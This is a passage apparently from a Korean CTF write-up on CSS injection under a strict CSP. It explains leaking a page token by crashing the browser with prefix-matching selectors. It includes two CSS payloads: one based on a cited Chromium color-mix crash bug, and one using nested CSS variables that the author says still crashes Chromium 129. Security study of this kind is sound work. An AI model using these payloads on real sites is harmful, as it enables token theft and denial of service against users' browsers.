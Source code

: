 sandbox때문에 javaScript도 쓸 수 없으면서 
보통의 CSS injection은 `img-src`나 `font-src` CSP가 허용된 경우 외부에 요청을 보내 유출하지만 CSP가 `default-src 'none'`으로 외부로는 요청보내기 어렵습니다. 


해당 문제를 푸는 방법은 무거운 CSS를 적용하여 브라우저의 크래시 발생 여부로 token을 유출하는 문제입니다.

[CSS:Using a color made with color-mix in relative color syntax causes the tab to crash with a SIGILL](https://issues.chromium.org/issues/41490764)

해당 버그를 이용하여 크래시를 발생시킵니다. 

```html
<style>
  h1[data-token^="a"] {
    --c1: color-mix(in srgb, blue 50%, red);
    --c2: srgb(from var(--c1) r g b);
    background-color: var(--c2);
  }
</style>
```
혼합색상을 사용하여 `data-token`이 접두사로 일치한다면 브라우저 오류를 일으켜, 웹페이지가 로드되는 시간을 길게하여 브라우저 상태를 파악해 token을 유출합니다. 

그런데 해당 코드는 현재 브라우저에서는 패치된듯 보이고 변수를 중첩하여 생성하는 CSS는 현재 크로미움 브라우저(버전 129.0.6668.101)에서도 크래시가 발생하는 모습을 볼 수 있습니다. 


**코드예시**
```html
<h1 data-token="abcd123">abcd123</h1>

<style>
   html:has([data-token^="a"]) {
      --a: url(/?1),url(/?1),url(/?1),url(/?1),url(/?1);
      --b: var(--a),var(--a),var(--a),var(--a),var(--a);
      --c: var(--b),var(--b),var(--b),var(--b),var(--b);
      --d: var(--c),var(--c),var(--c),var(--c),var(--c);
      --e: var(--d),var(--d),var(--d),var(--d),var(--d);
      --f: var(--e),var(--e),var(--e),var(--e),var(--e);
      --g: var(--f),var(--f),var(--f),var(--f),var(--f);
  }
  *{
    background-image: var(--g)
  }
</style>
```
직접 브라우저에서 실행시 아래 사진과 같이 STATUS_STACK_OVERFLOW 오류가 발생한 모습을 볼 수 있습니다. 

![3](/assets/img/CSS_injection/3.png)


CSS injection이 가능하지만 CSP로 인해 외부 요청이 막혔을 때도 정보를 유출할 수 있다는 점에서 흥미로운 기법이라고 생각합니다

---

### N1CTF 2023-ytiruces

